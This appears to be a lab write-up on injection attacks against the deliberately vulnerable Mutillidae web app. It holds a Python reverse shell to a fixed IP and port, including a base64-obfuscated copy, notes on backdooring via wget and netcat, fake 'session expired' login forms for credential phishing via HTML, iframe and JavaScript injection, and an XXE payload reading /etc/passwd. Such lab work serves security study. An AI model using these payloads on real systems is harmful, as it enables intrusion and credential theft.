 <h1>Other forms of Injection</h1>
<p>
	The purpose of injection remains the same , injecting into an interpreted context for causing the application to perform an unintended functionality.
</p>
<ol>
<li><h2>Command Injection:</h2>
<p> Command injection referes to the attack mechanism in which an attacker can inject any command into the 
underlying OS and compromise the back-end system. Mutillidae for me is hosted on a Linux server, so will be using UNIX commands for the same. Getting shell access on the underlying server system is often the jackpot to any attacker. We can create persistent backdoors with the help of metasploit.
</p>
<ul>
<li>
<h3>Method 1:</h3>
Download a php backdoor via wget using the command injection flaw
And then use that backdoor. 
Catch: /var/www should be writeable
If .htacess is modifiable, we can modify .htacess and make /var/www writeable
</li>
<li><h3>Method 2:Netcat shell</h3>
Use Netcat with <b>"-e"</b> option to allow for command execution after connect.
The -e executes whatever we place in after the parameter. In this case we want to spawn a 
bash shell on tcp connect. 
However, this option is not present on many traditional netcat installations
What to do in this case?
Well we can go for a custom shell in a language of our choice
</li> 
<li><h3>Method 3:Python shell(any language installed on backend)</h3>
Set up a listener on attacker machine
<pre>
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('192.168.13.150',1234))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
</pre>
For obfuscation , we could also base64 encode and decode string
<pre>
python -c "exec('aW1wb3J0IHNvY2tldCwgc3VicHJvY2VzcztzID0gc29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgo\n4oCYMTkyLjE2OC4xMy4xNTDigJksOTAwMCkpCndoaWxlIDE6ICBwcm9jID0gc3VicHJvY2Vzcy5Q\nb3BlbihzLnJlY3YoMTAyNCksIHNoZWxsPVRydWUsIHN0ZG91dD1zdWJwcm9jZXNzLlBJUEUsIHN0\nZGVycj1zdWJwcm9jZXNzLlBJUEUsIHN0ZGluPXN1YnByb2Nlc3MuUElQRSk7cy5zZW5kKHByb2Mu\nc3Rkb3V0LnJlYWQoKStwcm9jLnN0ZGVyci5yZWFkKCkp\n'.decode('base64'))"
</pre>
</li>
<li><h3>Method-4: Meterpreter Shell</h3>
Deploying a Meterpreter shell is one way to create a well obfuscated persisitent backdoor to any OS we have shell acess on.How to create and deploy a meterpreter shell is a different and vast topic altogether.
</li>
</ul>
<li><h2>Frame Source injection</h2>
	Similar to a Remote file inclusion vulnerability. We can include any special characters once they  are URL encoded to cause an XSS attack on the site. We can include any iframe of our choice such as a malicious form and then steal user credentials or make cross-domain requests. We could inject a remote page into the src of the iframe. Note that iframes cannot access the cookies of the parent site, however can run arbitary javascript if not run in sandbox mode.
	<p> iframe sources should never be allowed to be controlled by user input, as the iframe can load potential malware from other site. There are other security risks as well. I found this blog very helpful.
	<a href="https://stackoverflow.com/questions/7289139/why-are-iframes-considered-dangerous-and-a-security-risk?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa">Why Iframes pose a security risk?</a>
	We can corrupt the iframe src to load xss attacking page from our server or even an AJAX request to our site. We can inject this to the vulnerable parameter and let the fun unroll, or even a remote html page from the attacking server of our choice. 
	<pre>
		%3Ch1%3ESession+Expired%3C%2Fh1%3E%0D%0A%3Cform+action%3D%22Marale%22%3E%0D%0A%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22password%22%2F%3E%0D%0A%3Cinput+name%3D%22name%22+placeholder%3D%22name%22%2F%3E%0D%0A%3Cinput+type%3D%22submit%22%2F%3E%0D%0A%3C%2Fform%3E%3C%21--
	</pre> 
</li>
<li><h2>HTML Injection </h2>
	When there is a vulnerability in the application which allow you to inject HTML into code.
	This can cause the client to visit a vulnerable "GET" URL and steal Non-http cookies or reveal csrf token to an attacker via an Ajax request. There are a multitude ways this can be exploited.
</br>
	Also, some of these require different contexts , such as those when modifying things such as the HTTP headers, as the victim will not change these to attack himself if the HTML injected is not stored but reflected back. In case of submissions via POST request, the POST requests now can be stored in a clickable link which can be visited via DATA URI.Also, if a site is vulnerable to HTMLi ,it most likely is vulnerable to Javascript Injection as well 
	<ul>
		<li><h3>Basic</h3>
		<p>Simple case, where the input fields visible are vulnerable to HTML injection. You may use any of the web pages, <b>"Add to your Blog"</b> is what I have exploited. Make sure not to use single quotes or else the SQL query will explode</p>
		<pre>
&ltform action="/attacked"&gt
&ltinput name="user"/&gt
&ltinput id='ps' type="password" name="pass"/&gt
&ltbutton type="submit"&gtRegister&lt/button&gt
&lt/form&gt
		</pre>
	</li>
	<li>
		<h3>Via HTTP Headers</h3>
		<p>
			These exploits can work under a man in the middle the attack, or a clever manipulation of the iframe header to load the web page silently in the background. The target page here is DNS lookup page. We must always check the context and filters on the 
			Using Burp intercept the outgoing request. In the DNS lookup page, I am targetting the vulnerability labelled as <b>"Those Back Buttons"</b>.
		</p>
			<p>
				In the beginning , visit this page from another page. As MITM simulation, intercept using Burp, and modify the Referer header to something like this <i>&lt+&gt</i> to see where the payload is getting injected. When the page loads, inspect the backbutton which loads the value from <i>window.href.location</i>. Its value will be like this.
		<pre>
&lta onclick="document.location.href='&lt+&gt';"&gt
		</pre>
		<p>
		So , now knowing the context and the fact that there is no encoding or sanitization defense, we do this.
	</p>
		<pre>
';"&gt&ltform action='hacked'&gt&ltinput type='password' name='password' placeholder='password'/&gt&ltinput name='name' placeholder='name'/&gt&ltinput type='submit'/&gt&lt/form&gt&lt!--
		</pre>
	</p>
	</li>
	<li><h3>Cookie Manipulation</h3>
<p>We do an MITM, and then modify the victim's cookie to be something that causes an HTML injection.
We can inject into the cookies, and if the website reflects some of the cookie, say the time or some user preference such as Nick, we can cause the a reflected injection. However such an attack would most definitely require the context of man in the middle attack or some tricks with iframe and meta tag.
</p>
	
	</li>

	<li><h3>HTTP Parameter Pollution</h3>
	<p>HTTP parameter pollution is just a method to repeat HTTP parameters and carry out a malicious attack.HTTP standards do not specify how a server should handle repeated parameters. While carrying out an attack, we can use this technique to bypass setting up some IDS, if the repeated parameter value, is concatenated by the backend server to have the desired payload. It is not a standalone attack</p>


	</li> 

	<li><h3>DOM Manipulation</h3>
		We manipulate the DOM things such as Web Storage. 
		Web storage provides larger storage than cookies and follows the same origin policies. It can be accessed via javascript, and is a HTML5 w3 standard. What it means is one site cannot modify or access the web storage for other site, if their origin is different.Also, this can be done via Javascript or some malicious browser extension. Secondly, for the injection via WebDOM to work the Web Storage must be reflected somewhere on the page unsanitized. The localstorage object persists until manually removed, and the session storage object is deleted, once the user closes the browser window(It is valid for one session of the browser).
		<br>
		In mutillidae try this overused session expired payload, on the page <b>html5-storage.php</b>.
		<pre>
&gt&ltform action='hacked'&gt&ltinput type='password' name='password' placeholder='password'/&gt&ltinput name='name' placeholder='name'/&gt&ltinput type='submit'/&gt&lt/form&gt&lt!--
		</pre>
	</li>
	</ul>
</li>
<li><h2>Javascript injection</h2>
<p>
	Same technique of exiting the context but instead of the HTML we would be injecting javascript. A Javascript injection attack is also known as XSS. Hre I am going to demonstrate the page of <b>Password Generator</b>. This page has the vulnerability in the field username, which is taken from the URL,and we can inject a javascript code into it. After examining the context, we know that the reflected output is not encoded nor sanitized in anyway. We may perform the injection by the payload mentioned below.
	<pre>
		document.getElementById("idUsernameInput").innerHTML = "This password is for anonymous";document.getElementById("idUsernameInput").innerHTML+='&ltform action="/attacked"&gt
&ltinput name="user"/&gt
&ltinput id="ps" type="password" name="pass"/&gt
&ltbutton type="submit"&gtRegister&lt/button&gt
&lt/form&gt';var x="p";
	</pre>
</p>
<li><h2>Xml Injection</h2>
<ul>
	<li><h3>External Entity Injection</h3>

<p>
	Is harder than most as comments need to be ballanced, and xml parsers very strict with the XML format, unless it is a custom XML parser. The trick is to create an external entity reference and then fetch a local or remote file for nefarious purposes. Remote host file access is blocked by default, and this functionality can also be used for causing a DDOS attack by opening an infinite file stream.
</p>
<p>
	In XML an external entity is like a defined variable, which can referenced in the XML document using the "&" sign. The problem is this variable resolves at the server side, and we can place file URI to exploit this and fetch sensitive server info. We target the page <b>xml-validator.php</b>, and the payload to reveal the passwd file.
	<pre>
		&lt;!DOCTYPE xyz [ &lt;!ENTITY abc SYSTEM &quot;../../../../../etc/passwd&quot;&gt;]&gt;&lt;somemessage&gt;&lt;message&gt;&amp;abc;&lt;/message&gt;&lt;/somemessage&gt;
	</pre>
</p>
</li>
<li><h3>External Entity Expansion</h3>
To exploit this attack , we need to cause a memory overload of the XML parser such that it enters into an array of xml expansions and uses too much memory of ther server. We can do this recursively, and expand upon the tags causing a memory overflow and in some cases stopping the entire web application eventually. 
</li>
</ul>
</li>
</li>
</li>

